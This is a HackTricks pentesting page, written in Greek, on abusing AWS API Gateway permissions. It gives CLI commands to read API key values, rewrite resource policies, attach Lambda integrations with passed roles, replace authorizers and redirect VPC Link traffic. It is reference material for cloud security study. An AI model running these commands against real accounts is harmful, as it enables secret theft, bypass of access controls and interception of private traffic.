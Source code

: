 # AWS - Apigateway Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Apigateway

Για περισσότερες πληροφορίες ελέγξτε:

{{#ref}}
../aws-services/aws-api-gateway-enum.md
{{#endref}}

### `apigateway:POST`

Με αυτή την άδεια μπορείτε να δημιουργήσετε κλειδιά API των APIs που είναι διαμορφωμένα (ανά περιοχή).
```bash
aws --region <region> apigateway create-api-key
```
**Πιθανές Επιπτώσεις:** Δεν μπορείτε να κάνετε privesc με αυτή την τεχνική αλλά μπορεί να αποκτήσετε πρόσβαση σε ευαίσθητες πληροφορίες.

### `apigateway:GET`

Με αυτή την άδεια μπορείτε να αποκτήσετε τα παραγόμενα API keys των APIs που είναι ρυθμισμένα (ανά περιοχή).
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**Πιθανές Επιπτώσεις:** Δεν μπορείτε να αποκτήσετε δικαιώματα με αυτή την τεχνική, αλλά μπορεί να αποκτήσετε πρόσβαση σε ευαίσθητες πληροφορίες.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

Με αυτές τις άδειες είναι δυνατόν να τροποποιήσετε την πολιτική πόρων ενός API για να αποκτήσετε πρόσβαση στην κλήση του και να εκμεταλλευτείτε την πιθανή πρόσβαση που μπορεί να έχει το API gateway (όπως η εκτέλεση μιας ευάλωτης lambda).
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
**Πιθανές Επιπτώσεις:** Συνήθως, δεν θα μπορείτε να κάνετε privesc άμεσα με αυτή την τεχνική, αλλά μπορεί να αποκτήσετε πρόσβαση σε ευαίσθητες πληροφορίες.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

> [!NOTE]
> Χρειάζεται δοκιμή

Ένας επιτιθέμενος με τις άδειες `apigateway:PutIntegration`, `apigateway:CreateDeployment`, και `iam:PassRole` μπορεί **να προσθέσει μια νέα ολοκλήρωση σε μια υπάρχουσα API Gateway REST API με μια Lambda λειτουργία που έχει συνημμένο έναν IAM ρόλο**. Ο επιτιθέμενος μπορεί στη συνέχεια **να ενεργοποιήσει τη Lambda λειτουργία για να εκτελέσει αυθαίρετο κώδικα και ενδεχομένως να αποκτήσει πρόσβαση στους πόρους που σχετίζονται με τον IAM ρόλο**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Πιθανές Επιπτώσεις**: Πρόσβαση σε πόρους που σχετίζονται με τον ρόλο IAM της λειτουργίας Lambda.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

> [!ΣΗΜΕΙΩΣΗ]
> Χρειάζεται δοκιμή

Ένας επιτιθέμενος με τις άδειες `apigateway:UpdateAuthorizer` και `apigateway:CreateDeployment` μπορεί να **τροποποιήσει έναν υπάρχοντα εξουσιοδοτητή API Gateway** για να παρακάμψει τους ελέγχους ασφαλείας ή να εκτελέσει αυθαίρετο κώδικα όταν γίνονται αιτήσεις API.
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Πιθανές Επιπτώσεις**: Παράκαμψη ελέγχων ασφαλείας, μη εξουσιοδοτημένη πρόσβαση σε πόρους API.

### `apigateway:UpdateVpcLink`

> [!NOTE]
> Χρειάζεται δοκιμή

Ένας επιτιθέμενος με την άδεια `apigateway:UpdateVpcLink` μπορεί να **τροποποιήσει έναν υπάρχοντα VPC Link ώστε να δείχνει σε διαφορετικό Network Load Balancer, ενδεχομένως ανακατευθύνοντας ιδιωτική κίνηση API σε μη εξουσιοδοτημένους ή κακόβουλους πόρους**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**Πιθανές Επιπτώσεις**: Μη εξουσιοδοτημένη πρόσβαση σε ιδιωτικούς πόρους API, παρεμβολή ή διακοπή της κυκλοφορίας API.

{{#include ../../../banners/hacktricks-training.md}}
